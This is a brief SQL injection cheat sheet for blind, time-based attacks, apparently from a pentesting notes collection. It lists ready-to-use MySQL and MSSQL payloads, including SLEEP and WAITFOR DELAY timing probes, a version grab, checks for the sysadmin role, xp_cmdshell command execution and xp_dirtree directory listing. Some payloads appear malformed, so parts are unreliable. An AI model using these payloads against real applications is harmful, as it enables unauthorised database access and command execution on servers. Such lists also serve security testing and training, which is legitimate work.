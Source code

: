 # Inferential SQL Queries

Search Tag(s): #helpers #blind-sql-injection #webapp

## MySQL

Inject time-based blind payloads

```
' OR IF(1=1, SLEEP(5), 0)#
```

Grab version

```
' OR IF(1=1, SLEEP(5), 0) UNION SELECT (SELECT version())#
```

## MSSQL

```
' IF (SELECT IS_SRVROLEMEMBER('sysadmin')) = 1 EXEC xp_cmdshell('echo Enabled')

' IF (SELECT CASE WHEN (SELECT IS_SRVROLEMEMBER('sysadmin')) = 1 THEN WAITFOR DELAY '0:0:16' ELSE 0 END) = 1

' IF (SELECT IS_SRVROLEMEMBER('sysadmin')) = 0 EXEC xp_cmdshell('echo Disabled')

' IF (SELECT IS_SRVROLEMEMBER('sysadmin')) = 0 WAITFOR DELAY '0:0:16' ELSE 0 END) = 1

' IF (SELECT SUBSTRING(@@version, 1, 1)) = '1' WAITFOR DELAY '0:0:16'

' OR 1=1; EXEC xp_dirtree 'C:\your_target_directory', 1, 1;-- -
```

---
## References

- [WebSec: SQL Injection Knowledge Base](https://www.websec.ca/kb/sql_injection)